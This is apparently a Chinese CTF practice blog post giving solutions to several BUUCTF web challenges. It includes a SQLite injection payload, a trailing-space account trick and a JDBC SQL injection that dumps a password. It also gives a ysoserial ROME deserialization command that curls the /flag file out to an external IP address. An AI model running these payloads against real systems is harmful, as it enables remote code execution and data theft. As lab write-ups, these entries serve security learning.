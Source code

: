 ```yaml
---
title: BUU近期刷题记录
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/QQ%E5%9B%BE%E7%89%8720210308190505.jpg'
authorAbout: SteamID：888007034
authorDesc: Blizzard：TroyeSivan#51769
categories: 技术
comments: true
date: 2021-03-28 20:44:20
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-1139481.jpg
---
```

## [Black Watch 入群题]Web2

Secret

## [Zer0pts2020]phpNantokaAdmin
关键词：sqlite trick
根据提示这是一个 Sqlite 数据库，相应的操作有创建表、插入值和删除表，那么有可能存在注入的是创建表和插入值，但是插入值那里似乎注不了，所以注入点应该在创建表那里
首先我们需要知道 Sqlite 的一些特性
当 Sqlite 进行 select 时，可以用[]、'、" 和 ` 来装饰列名，位于列名后面的字段被称为别名，如
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210316160252.png)
create table 时支持一种 as 的语法
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210316160315.png)
参数处有 32 长度的字符限制，所以我们不能进行常规的查表查字段，不过我们直接直接查询当前表的 sql 语句，还有过滤了一些标点符号，其中过滤了注释符 -- ，可以用 ; 进行闭合
查询当前表的数据操作
table_name=kk as select [sql][&columns[0][name]=1&columns[0][type]=]from sqlite_master;

## [FBCTF2019]Products Manager
关键词：mysql trick
www.zip
注册个facebook后面跟大于六十个空格的账号
然后facebook登陆即可。
https://www.cnblogs.com/wkzb/p/12286303.html

## [网鼎杯 2020 朱雀组]Think Java
参考：https://www.bilibili.com/video/av840794036/；https://blog.csdn.net/weixin_43610673/article/details/106214366
关键词：jdbc trick；java 反序列化
给了源码，很容易跟踪到sql注入处（jdgui）。dbName可控，源码如下
dbName = "jdbc:mysql://mysqldbserver:3306/" + dbName;
这里是一个jdbc的trick
jdbc:mysql://mysqldbserver:3306/?dbName=myapp?a=' union select group_concat(pwd)from(user)#
在jdbc后面加问号可以引用其一些属性。
注出密码：admin@Rrrr_ctf_asde，但是仍需要登录接口。
接下来看到一开始就在跑的dirsearch跑出/swagger-ui.html，也有师傅说看到import io.swagger.annotations.ApiOperation;应该能想到有swagger-ui.html
登陆成功，得到一串rO0A开头的代码，是Java序列化base64加密的数据开头。如果以aced开头，那么他就是这一段Java序列化的16进制
/common/user/current 查看用户信息，auth 头是一个序列化后的信息，在查看用户信息时提交这个Bearer token进行反序列化。
用ysoserial 打 
java -jar ysoserial-0.0.5.jar ROME "curl http://121.196.169.53:3333 -d @/flag" | base64 -w 0
current打过去，VPS监听3333端口
我这里直接带出数据，看到有的师傅能拿到权限有的不能，发生甚么事了。
弹shell命令：https://www.cnblogs.com/20175211lyz/p/12397933.html